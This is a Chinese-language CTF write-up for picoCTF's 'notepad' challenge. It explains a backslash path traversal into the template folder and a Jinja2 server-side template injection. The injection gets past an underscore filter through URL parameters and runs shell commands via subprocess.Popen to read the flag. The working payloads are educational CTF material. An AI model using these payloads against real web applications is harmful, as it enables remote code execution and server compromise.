 # notepad

This note-taking site seems a bit off.

[notepad.mars.picoctf.net](https://notepad.mars.picoctf.net/)

https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar

##### Hint 1

> It's weird that I can't note `..\templates\errors\`.

##### Hint 2

> Jinja2 is a good templating engine and I believe it must be perfectly safe!

## WP

### 寻找注入漏洞

打开源码中的`app.py`，发现在访问`/index`页面时，还会传入一个`error`参数。

```python
@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))
```

查看`index.html`，发现它会根据传入的`error`参数访问`errors/`路径下同名的html文件以回显error信息。

```html
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
```

因此，虽然我们无法直接访问到`errors/`路径下，但是我们可以通过给`index`页面传入`error`参数的方式来获取`errors/`路径下的任意一个HTML文件。

在这个过程中存在一个SSTI注入点，也就是在显示`[error_name].html`文件的过程中，可以进行模板注入。

为了进行模板注入，我们需要先将我们自定义的HTML文件写入`errors/`路径下，然后通过给`index`页面的`error`参数传递文件名来让服务器回显文件的内容。

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

以上代码展示了该程序接收用户上传文件的操作。可以看见程序会自动将文件内容的前128个字符作为文件名拼接在`static/`路径后，并在最后补上一个token和`.html`后缀生成完整文件名。

文件内容是用户自定义的，也就是说，假如用户在文件内容中输入路径，是可以改变文件的保存位置的。虽然在`create()`函数中程序过滤了`_`和`/`，但是在拼接字符串的过程中，`url_fix()`函数会自动将`\`转化为`/`，因此我们可以使用`\`来作为输入中的文件分隔符，然后将输入内容设置为`..\templates\errors\xxxxxx`来将文件的保存位置设置为`errors/`路径下。

### 注入漏洞测试

使用简单的payload测试一下模板注入。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{3*3}}
```

之所以使用大量的`a`进行填充，是为了让文件名中不出现特殊字符（文件名只会截取前128位）。带有特殊字符的文件名可能会在保存时被编码或者进行其他处理，使保存的结果难以预料。

![image-20210717012246445](notepad.assets/image-20210717012246445.png)

提交后，显示找不到文件，这是因为我们无法直接访问`errors/`路径下的文件。

![image-20210717012350765](notepad.assets/image-20210717012350765.png)

访问`/index`并将`error`参数设置为文件名，可以看见最后的`{{3*3}}`被替换为了`9`，注入成功。

![image-20210717012557577](notepad.assets/image-20210717012557577.png)

### 注入漏洞利用

接下来，我们就可以利用这个漏洞了。常见用于Flask SSTI的payload在这里不可直接使用，因为一般的payload会使用`__class__`等内建属性，而用户输入中的`_`是被过滤掉的。

不过，我们可以间接进行注入：在写入的文件内容中，将会被过滤的字符串改为接收URL传参，等待访问我们自定义的`errors/`路径下的HTML文件时再通过URL将非法字符串传入，这样就可以绕过字符串过滤了。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')]}}
```

我们使用`''[__class__]`的方式访问`''`字符串对象的`__class__`属性。

![image-20210717121056504](notepad.assets/image-20210717121056504.png)

举一反三，我们可以使用这个方法绕过字符串过滤，注入SSTI的payload。

首先，使用`mro()`查看所有父类，然后找到`object`类后列举出其所有子类，这样就可以看到Python中所有的类了。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()}}
```

payload中`p1`传参`__class__`，`p2`传参`__subclasses__`。

![image-20210717122112434](notepad.assets/image-20210717122112434.png)

成功获取了Python中所有的类。接下来我们需要找到我们所需的类进行注入。这里使用`subprocess.Popen`类来执行Shell命令。

查看`Dockerfile`可得flag文件和`app.py`在同一路径下，因此先使用`ls`命令找到flag文件。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()[273]('ls', stdout=-1).communicate()[0].decode()}}
```

![image-20210717133523667](notepad.assets/image-20210717133523667.png)

从回显结果中看到flag文件名，然后使用`cat`命令获取即可。

```xml
..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{''[request.args.get('p1')].mro()[1][request.args.get('p2')]()[273](['cat', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'], stdout=-1).communicate()[0].decode()}}
```

这里有一个细节需要注意，在`arg`传参中，可以直接输入命令字符串或将命令的各个部分拆开后通过列表传入。

如果直接使用字符串传参，则无法成功获取flag，会报500错误，推测可能是存在空格的原因。因此只能使用列表传参的方式。

![image-20210717134247656](notepad.assets/image-20210717134247656.png)

注入后，成功获取flag。
